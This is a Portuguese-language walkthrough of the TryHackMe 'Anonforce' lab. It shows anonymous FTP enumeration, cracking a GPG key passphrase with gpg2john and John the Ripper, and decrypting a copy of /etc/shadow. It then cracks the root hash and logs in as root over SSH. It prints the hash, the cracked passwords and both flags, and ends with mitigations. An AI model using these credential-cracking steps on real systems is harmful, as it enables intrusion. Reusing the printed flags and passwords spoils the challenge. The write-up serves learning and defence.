# **Anonforce – TryHackMe Walkthrough**
### Informações Padrão
- Plataforma: TryHackMe
- Máquina: Anonforce
- IP: 10.67.168.197
- Sistema Operacional: Ubuntu 16.04.6 LTS
- Objetivo: Ler user.txt e root.txt



---

### **Reconhecimento**

Iniciamos com um scan básico de serviços utilizando Nmap:

```bash
nmap -Pn -sV -oN 10.67.168.197_nmap.txt 10.67.168.197
```

### **Serviços identificados**

| Porta | Serviço | Versão        |
| ----- | ------- | ------------- |
| 21    | FTP     | vsftpd 3.0.3  |
| 22    | SSH     | OpenSSH 7.2p2 |

O serviço FTP chamou atenção por permitir acesso anônimo e possuir permissões excessivas em arquivos críticos.

---

### **Enumeração FTP**

Acesso ao FTP:


```bash
ftp 10.67.168.197
```

1. Encontrei um diretorio incomun que me chamou a atenção: `/notread`
2. Dentro do diretório /notread, dois arquivos interessantes foram encontrados: um arquivo GPG e uma chave privada GPG

```bash
-rwxrwxrwx  backup.pgp
-rwxrwxrwx  private.asc
```



Logo após encontrar o arquivo, usei: 
```bash
get backup.pgp
get private.asc
```

---

### **Primeiro passo, irei tentar quebrar a chave GPP**

Percebi que faltava recurso ao tentar decryptar meus arquivos. Voltei ao FTP e vasculhei novamente os arquivos e encontrei um item muito importante.
Ele estava em /home... O arquvio ```user.txt```

No arquivo continha a nossa primeira **FLAG**:


> 606083fd33beb1284fc51f411a706af8

### **No segundo passo, irei tentar um brute force para tentar descobrir a senha do arquivo usando a HASH**

### **1. O próximo passo foi extrair o hash da chave privada para quebra de senha.**

Extração do hash da chave privada:
```bash
gpg2john private.asc > hash.txt
```
Quebra da senha com John The Ripper:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

> Senha descoberta:`xbox360`

### **2. Importação da chave privada**

Com a senha correta, a chave privada foi importada com sucesso:
```bash
gpg --import private.asc
```
### **3. Decriptação do Backup**
Utilizando o modo loopback para inserir a senha manualmente:
```bash
gpg --pinentry-mode loopback --decrypt backup.pgp
```
O conteúdo do arquivo era uma cópia do /etc/shadow, contendo hashes de usuários, incluindo root.




### **4. Quebra de Senha do Root**
O hash do usuário root foi extraído e quebrado com John The Ripper, resultando na senha:

```bash
echo '$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0' > root.hash
john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
```

> Senha encontrada: `hikari`

---

### **Acesso Root via SSH**
O serviço SSH estava configurado para permitir login direto como root.

```bash
ssh root@10.67.168.197
senha: hikari
```

Acesso root obtido com sucesso.

### **Root Flag**

Dentro do diretório `/root`, foi encontrado o arquivo `root.txt`.

```bash
cat root.txt
```

> f706456440c7af4187810c31c6cebdce




### **Impacto**

- Exposição de arquivos sensíveis via FTP anônimo
- Chave privada GPG acessível publicamente
- Senhas fracas reutilizadas
- SSH permitindo login direto como root
- Comprometimento total do sistema

### **Mitigações**

- Desabilitar FTP anônimo
- Remover permissões excessivas (chmod 600)
- Nunca armazenar chaves privadas em serviços públicos
- Utilizar senhas fortes e únicas
- Desabilitar login root via SSH
- Implementar firewall e monitoramento de acesso

## Conclusão

Este desafio demonstra como **má configuração** de serviços básicos, aliada a **criptografia mal protegida**, pode levar ao comprometimento completo do sistema.
Mesmo sem exploits avançados, a cadeia de falhas foi suficiente para escalar privilégios até root.

